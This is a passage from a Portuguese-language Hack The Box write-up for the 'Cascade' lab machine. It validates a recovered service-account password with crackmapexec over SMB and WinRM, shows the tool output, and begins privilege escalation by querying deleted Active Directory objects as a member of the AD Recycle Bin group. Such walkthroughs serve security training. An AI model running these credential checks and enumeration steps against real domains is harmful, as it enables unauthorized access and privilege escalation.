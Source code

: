 > arksvc:w3lc0meFr31nd

Sempre verificar a palavra passe com crackmapexec

```bash
crackmapexec smb 10.10.10.182 -u 'arksvc' -p 'w3lc0meFr31nd'

#>  SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
#>  SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\arksvc:w3lc0meFr31nd

crackmapexec winrm 10.10.10.182 -u 'arksvc' -p 'w3lc0meFr31nd'

#>  WINRM       10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
#>  WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
#>  WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\arksvc:w3lc0meFr31nd (Pwn3d!)
```
Temos capacidade de entrar na máquina via evil-winrm!

## PrivEsc

![Evil-winrm de arksvc](Assets/HTB-Windows-Medium-Cascade/evil-winrm-arksvc.png)

A ultima fase para escalar privilégios até administrador é a seguinte: Este usuário está no grupo "*CASCADE\AD Recycle Bin*". Isto permite ver todos os objectos do active directory que foram removidos. Isto inclui o tal usuário TempAdmin, cuja a sua password poderá ser a mesma do que a do Administrator.

Para reaver todos os objectos removidos, basta uma linha de comando...

```powershell
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```
